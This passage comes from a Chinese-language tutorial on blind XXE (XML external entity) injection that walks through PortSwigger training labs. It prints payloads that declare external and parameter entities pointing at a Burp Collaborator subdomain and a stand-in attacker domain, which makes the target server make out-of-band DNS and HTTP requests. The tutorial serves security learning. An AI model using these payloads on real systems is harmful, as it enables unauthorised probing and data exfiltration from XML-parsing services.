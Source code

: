 随后差入一下载荷并替换 productId 中的数据值，发送请求并点击"Poll now"刷新监测情况，可以看到 DNS 和 HTTP 请求过来

```plain
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
```

[![](assets/1706060044-b2ff3c15abe64e53c2285b219ade3a8c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123131248-0cf06b8a-b9ae-1.png)

#### 盲注绕过

有时由于应用程序的某些输入验证或正在使用的 XML 解析器的某些强化，使用常规实体的 XXE 攻击会被阻止，在这种情况下您可以改用 XML 参数实体，XML 参数实体是一种特殊类型的 XML 实体，只能在 DTD 中的其他地方引用，就目前的目的而言，你只需要知道两件事，首先 XML 参数实体的声明在实体名称之前包含百分比字符：

```plain
<!ENTITY % myparameterentity "my parameter entity value" >
```

其次使用百分比字符而不是通常的"&"符号来引用参数实体：

```plain
%myparameterentity;
```

这意味着您可以通过 XML 参数实体使用带外检测来测试盲注类型的 XXE，这个 XXE 有效载荷声明了一个名为 XXE 的 XML 参数实体，然后在 DTD 中使用该实体，这将导致对攻击者的域进行 DNS 查找和 HTTP 请求，从而验证攻击是否成功

```plain
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

靶场名称：Lab: Blind XXE with out-of-band interaction via XML parameter entities  
靶场地址：[https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities)  
演示过程：  
随意选择一个商品  